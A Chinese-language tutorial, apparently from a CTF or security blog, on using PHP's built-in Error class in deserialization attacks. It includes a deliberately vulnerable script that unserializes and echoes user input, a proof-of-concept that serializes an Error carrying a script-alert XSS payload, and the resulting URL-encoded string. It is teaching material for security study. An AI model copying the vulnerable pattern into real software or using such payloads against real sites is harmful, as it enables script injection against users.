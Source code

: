 [TOC]



## php内置类小结



### Error、Exception进行xss、绕过hash比较



#### Error类

**Error(PHP 7, PHP 8)**  是所有PHP内部错误类的基类。

- 使用与php7以后的版本
- 需要有报错的情况

Error类是php的一个内置类，通常用于自定义一个Error，在php7版本后适用，可能存在xss漏洞，因为内置了一个 `__toString()` 方法。常用于php反序列化中，如果有个pop链走不通了，可能需要使用这个类做一个xss，当php对象被当作一个字符串输出或使用的时候（如：`echo` ）会触发 `__toString()` 方法




下面我们来测试一下如何使用Error类构造xss

测试代码：

```php
<?php
    $a = unserialize($_GET['whoami']);
    echo $a;
?>
```

poc

```php
<?php
$a = new Error("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);  
?>

//输出: O%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A25%3A%22%3Cscript%3Ealert%281%29%3C%2Fscript%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A18%3A%22%2Fusercode%2Ffile.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D
```

测试一下：

![image-20230530181322872](https://s2.loli.net/2023/05/30/9MbqdKyjVUJfaiI.png)



成功触发xss漏洞

